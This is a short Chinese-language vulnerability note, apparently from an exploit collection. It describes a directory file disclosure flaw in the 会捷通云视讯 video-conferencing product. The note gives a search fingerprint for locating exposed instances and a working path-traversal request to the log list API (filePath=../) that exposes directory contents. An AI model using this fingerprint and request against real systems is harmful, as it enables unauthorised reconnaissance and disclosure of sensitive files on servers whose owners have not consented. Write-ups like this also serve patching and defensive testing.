

# 会捷通云视讯 list 目录文件泄露漏洞

## 漏洞描述

会捷通云视讯某个文件 list参数 存在目录文件泄露漏洞，攻击者通过漏洞可以获取一些敏感信息

## 漏洞影响

```
会捷通云视讯
```

## 网络测绘

```
body="/him/api/rest/v1.0/node/role"
```

## 漏洞复现

登陆页面如下


访问Url


```plain
/him/api/rest/V1.0/system/log/list?filePath=../
```





## 